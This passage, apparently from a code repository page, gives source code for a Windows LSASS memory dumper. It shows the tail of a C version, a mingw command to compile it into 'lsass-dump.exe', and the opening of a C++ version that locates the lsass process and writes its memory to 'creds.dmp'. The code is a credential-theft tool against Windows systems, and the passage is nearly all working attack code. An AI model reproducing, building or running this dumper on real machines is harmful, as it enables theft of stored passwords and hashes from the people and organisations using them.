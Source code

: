 ```c
    printf("[+] Successfully dumped lsass.\n");

    return 0;
}
```

Compile the memory dumper.

```
$ x86_64-w64-mingw32-gcc -O2 lsass-dump.c -o lsass-dump.exe \
-ldbghelp -mconsole -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive >/dev/null 2>&1
```

## CPP

```cpp
#include <iostream>
#include <windows.h>
#include <errhandlingapi.h>
#include <tlhelp32.h>
#include <dbghelp.h>

#pragma comment(lib, "dbghelp.lib")

DWORD getProcessIdentifer(const char *process_name) {
    HANDLE handle_snapshot;
    PROCESSENTRY32 process_entry;
    DWORD process_id = 0;
    BOOL handle_result;

    handle_snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

    if(INVALID_HANDLE_VALUE == handle_snapshot)
        return 0;

    process_entry.dwSize = sizeof(PROCESSENTRY32);

    handle_result = Process32First(handle_snapshot, &process_entry);

    while(handle_result) {
        if(strcmp(process_name, process_entry.szExeFile) == 0) {
            process_id = process_entry.th32ProcessID;
            break;
        }
        handle_result = Process32Next(handle_snapshot, &process_entry);
    }

    CloseHandle(handle_snapshot);
    return process_id;
}

void LSASSDump(DWORD process_id) {
    HANDLE lsass_process;
    HANDLE memory_file = CreateFileA("creds.dmp", GENERIC_ALL, FILE_SHARE_READ, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (!memory_file) {
        std::cout << "[!] Error creating dump file! " + GetLastError() << std::endl;
        exit(-1);
    }
    std::cout << "[+] Dump file created successfully!" << std::endl;

```